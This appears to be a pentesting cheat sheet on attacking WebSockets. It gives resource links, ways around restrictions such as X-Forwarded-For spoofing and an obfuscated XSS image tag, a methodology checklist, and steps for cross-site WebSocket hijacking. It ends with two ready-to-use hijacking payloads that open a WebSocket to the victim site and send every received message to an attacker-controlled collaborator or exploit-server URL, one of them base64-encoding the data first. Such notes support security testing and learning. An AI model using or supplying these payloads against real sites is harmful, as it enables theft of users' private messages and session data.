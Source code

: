# Resources
- [Websockets Playlist - Popo Hack](https://www.youtube.com/playlist?list=PLzgroH3_jK2gNDZhR0oyY1FsshTgN215-)
- [Websockets Playlist - Jarno Timmermans](https://www.youtube.com/playlist?list=PLGb2cDlBWRUUqziKgNJXxhVodFFROqfeI)
# Bypassing Restrictions
- X-Forwarded-For header might be used to bypass IP address block
- Some payloads might need to be obfuscated
```html
<img src=1 oNeRrOr=alert`1`>
```
# Methodology
- Understand how the connection to the websocket is initiated and works
- Inspect the WebSocket history tab
- Look for XSS, SQLi, and any other vulnerability
## Cross-site WebSocket hijack (CSWSH)
- Check to see if the SameSite cookie is set and the value that it's set to
- Check if the endpoint has an unpredictable anti-CSRF token
- Check how to extract the chat's information
# Crafting payloads
- Payload might be html encoded by the frontend
    - To bypass, intercept the request and inject the malicios payload directly
- Encoding special characters:
    - If the payload is sent in a JSON object, escape double quotes " using backslashes \"
- Some payloads might need to be obfuscated
```html
<img src=1 oNeRrOr=alert`1`>
```
# Payloads
Payload 1
```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Payload 2
```js
  let newWebSocket = new WebSocket('wss://url');

   newWebSocket.onopen = function () {
       newWebSocket.send("READY");
   };

   newWebSocket.onmessage = function (evt) {
       var message = evt.data;
       fetch('https://exploit-server-url/?message=' + btoa(message));
   };
```
